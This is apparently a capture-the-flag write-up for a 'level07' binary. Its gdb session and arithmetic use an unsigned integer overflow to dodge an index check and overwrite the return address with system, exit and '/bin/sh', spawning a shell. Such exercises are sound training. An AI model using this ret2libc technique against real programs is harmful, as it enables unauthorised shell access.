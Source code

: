 gdb level07
b main
r
info frame
eip at 0xffffd5cc (4294956492)

(gdb) print &system
$4 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) print &exit
$5 = (<text variable, no debug info> *) 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec

can't store at index % 3 == 0


b read_number
s
read
i r
eax 0xffffd404

buffer start at 0xffffd404 

4294956492 - 4294956036 = 456

0xffffd5cc (4294956492)
stored u_int so array size = 4

456 / 4 = 114

114  % 3 == 0

so adding to uintmax 
4294967296 / 4 + 114 = 1073741938

so we have to store:
system (0xf7e6aed0):
 Number: 4159090384
 Index: 1073741938
exit (0xf7e5eb70):
Number: 4159040368
 Index: 115
/bin/sh (0xf7f897ec):
 Number: 4160264172
 Index: 116 

 so when we will read at idx 1073741938, it will store the system /bin/sh exit as eip
 so we just have to quit after that and boom shell spawned